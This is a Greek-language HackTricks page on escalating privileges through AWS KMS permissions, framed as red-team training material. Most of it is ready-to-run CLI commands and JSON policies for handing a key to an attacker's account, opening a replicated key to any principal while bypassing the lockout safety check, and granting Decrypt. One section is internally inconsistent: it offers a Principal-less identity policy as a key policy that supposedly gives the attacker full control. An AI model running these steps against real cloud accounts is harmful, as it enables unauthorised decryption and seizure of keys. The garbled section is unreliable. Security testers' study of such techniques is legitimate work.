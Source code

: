 # AWS - KMS Privesc

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες σχετικά με το KMS ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Με αυτές τις άδειες είναι δυνατόν να **τροποποιηθούν τα δικαιώματα πρόσβασης στο κλειδί** ώστε να μπορεί να χρησιμοποιηθεί από άλλους λογαριασμούς ή ακόμα και από οποιονδήποτε:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "kms:CreateKey",
            "Resource": "*"
        },
        {
            "Effect": "Allow",
            "Action": [
                "kms:CreateAlias",
                "kms:UpdateAlias"
            ],
            "Resource": "*"
        },
        {
            "Effect": "Allow",
            "Action": "kms:PutKeyPolicy",
            "Resource": "*"
        }
    ]
}
```

Αυτή η πολιτική επιτρέπει τη δημιουργία ενός νέου KMS key, τη δημιουργία και ενημέρωση ενός alias για το key, και την τοποθέτηση μιας πολιτικής στο key. Με αυτές τις άδειες, ένας επιτιθέμενος μπορεί να δημιουργήσει ένα νέο key, να τοποθετήσει μια πολιτική που του δίνει πλήρη έλεγχο στο key, και να χρησιμοποιήσει το key για να αποκρυπτογραφήσει δεδομένα ή να υπογράψει μηνύματα.

### Δημιουργία ενός νέου KMS key

```sh
aws kms create-key --description "My new key"
```

Αυτό θα δημιουργήσει ένα νέο KMS key και θα επιστρέψει το KeyId του.

### Δημιουργία ενός alias για το νέο key

```sh
aws kms create-alias --alias-name alias/my-new-key --target-key-id <KeyId>
```

Αυτό θα δημιουργήσει ένα alias για το νέο key, κάνοντας το πιο εύκολο στη χρήση.

### Τοποθέτηση μιας πολιτικής στο νέο key

```sh
aws kms put-key-policy --key-id <KeyId> --policy file://policy.json
```

Αυτό θα τοποθετήσει την πολιτική που ορίζεται στο αρχείο policy.json στο νέο key, δίνοντας πλήρη έλεγχο στον επιτιθέμενο.
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Επιτρέπει σε έναν principal να χρησιμοποιήσει ένα KMS key:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Ένα grant μπορεί να επιτρέψει μόνο συγκεκριμένους τύπους λειτουργιών: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Σημειώστε ότι μπορεί να χρειαστούν μερικά λεπτά για να **επιτρέψει το KMS στον χρήστη να χρησιμοποιήσει το κλειδί μετά τη δημιουργία του grant**. Μόλις περάσει αυτός ο χρόνος, ο principal μπορεί να χρησιμοποιήσει το KMS key χωρίς να χρειάζεται να καθορίσει τίποτα.\
Ωστόσο, αν χρειάζεται να χρησιμοποιηθεί το grant αμέσως [χρησιμοποιήστε ένα grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (ελέγξτε τον ακόλουθο κώδικα).\
Για [**περισσότερες πληροφορίες διαβάστε αυτό**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Σημειώστε ότι είναι δυνατό να παραθέσετε τις επιχορηγήσεις των κλειδιών με:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Με αυτές τις άδειες είναι δυνατό να αναπαραχθεί ένα multi-region enabled KMS key σε διαφορετική περιοχή με διαφορετική πολιτική.

Έτσι, ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να αποκτήσει privesc την πρόσβασή του στο κλειδί και να το χρησιμοποιήσει

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Αυτή η άδεια επιτρέπει τη χρήση ενός κλειδιού για την αποκρυπτογράφηση κάποιων πληροφοριών.\
Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετάσχετε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
